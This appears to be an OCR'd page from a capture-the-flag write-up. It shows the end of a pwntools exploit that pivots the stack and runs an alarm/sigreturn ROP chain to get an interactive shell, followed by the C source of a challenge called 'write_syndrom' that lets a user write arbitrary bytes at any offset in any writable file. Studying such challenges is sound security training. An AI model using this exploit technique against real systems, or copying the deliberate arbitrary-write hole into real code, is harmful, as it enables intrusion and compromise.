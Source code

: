 ```
#print(frame)
#print(len(frame))
_rop=p64(alarm)+p64(syscall)+bytes(frame)[:0xe8]
sleep(60-0xf-1)  # tried and it works ; the -1 for remote
p.send(p64(rbp)+_rop.ljust(0xf8,p8(0))+p64(rbp-0x100)+p64(leave))
p.interactive()
```

---

# write_syndrom

```C
int main(){
    setup();
    char file_path[0x40]={0};
    puts("give file name");
    fgets(file_path,sizeof(file_path),stdin);
    long b=strcspn(file_path,"\n");
    file_path[b]=0;

    if (access(file_path, W_OK) == 0) {

        int fd =open(file_path,O_WRONLY);
        if (fd<=0){
            puts("[-] couldnt open file for some reason");
            exit(-1);
        }
        unsigned long position=0;
        puts("now give position where to write");
        scanf("%llu%*c",&position);
        if (lseek(fd,position,SEEK_SET)<0){
            puts("[-] lseek failed for some reason");
            exit(-1);
        }
        printf("you will write up to 16 bytes at the postion %x\nnow give your payload\n",position);
        char payload[16]={0};
        if (write(fd,payload,read(0,payload,16))<=0) {
            puts("[-] write() error");
            exit(-1);
        }
        close(fd);
        return 0;
    }
    else{
        puts("[-] file doesnt exist or isnt writable");
        exit(-1);

    }

    return 0;
}
```
